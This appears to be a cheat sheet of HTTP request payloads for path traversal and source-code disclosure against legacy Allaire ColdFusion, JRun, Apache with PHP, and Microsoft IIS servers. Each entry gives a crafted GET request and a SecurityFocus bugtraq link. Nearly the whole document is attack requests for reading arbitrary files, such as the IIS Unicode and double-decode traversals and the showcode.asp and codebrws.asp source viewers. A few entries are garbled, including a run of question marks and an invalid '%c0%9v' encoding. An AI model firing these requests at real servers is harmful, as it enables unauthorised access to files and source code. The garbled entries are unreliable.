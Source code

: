 __Allaire ColdFusion openfile.cfm__

1. GET /cfdocs/expeval/openfile.cfm ?????????? HTTP/1.0
 - http://www.securityfocus.com/bid/115

__Allaire ColdFusion sourcewindow.cfm__

1. GET /cfdocs/exampleapp/docs/sourcewindow.cfm?Template=../../file HTTP/1.0
 - http://www.securityfocus.com/bid/115

__Allaire JRun /servlet/__

- http://www.securityfocus.com/bid/1833

1. GET /servlet/ssiservlet/../../file HTTP/1.0
1. GET /servlet/com.livesoftware.jrun plugins.ssi.SSIFilter/../../file HTTP/1.0

__Apache Web Server + PHP.EXE for Win32__

1. GET /php/php.exe?c:\file HTTP/1.0
 - http://www.securityfocus.com/bid/3786

__Apache Web Server + PHP3__

1. GET /file.php3.%5c../..%5c<relative path to file> HTTP/1.0
 - http://www.securityfocus.com/bid/2060

__Microsoft IIS Unicode__

- http://www.securityfocus.com/bid/1806

1. GET /scripts/..%c1%1c../<relative path to file> HTTP/1.0
1. GET /scripts/..%c0%9v../< relative path to file> HTTP/1.0
1. GET /scripts/..%c0%af../< relative path to file> HTTP/1.0

__Microsoft IIS Double Decode__

1. GET /scripts/..%255c..%255c<relative path to file> HTTP/1.0
 - http://www.securityfocus.com/bid/2708

__Microsoft IIS %20.htr__

1. GET /file%20("%20" repeated 230 times).htr HTTP/1.0
 - http://www.securityfocus.com/bid/1191

__Microsoft IIS idq.dll__
1. GET /query.idq?CiTemplate=<relative path to file> HTTP/1.0
 - http://www.securityfocus.com/bid/968

__Microsoft IIS showcode.asp__

1. GET /msadc/Samples/SELECTOR/showcode.asp?source=/msadc/Samples/<relative path to file> HTTP/1.0
 - http://www.securityfocus.com/bid/167

__Microsoft IIS codebrws.asp__

1. GET /iissamples/exair/howitworks/ codebrws.asp?source=<relative path to file> HTTP/1.0
  - http://www.securityfocus.com/bid/167

__Microsoft IIS viewcode.asp__

- http://support.microsoft.com/directory/article.asp?ID=KB;EN-US;Q231656&;
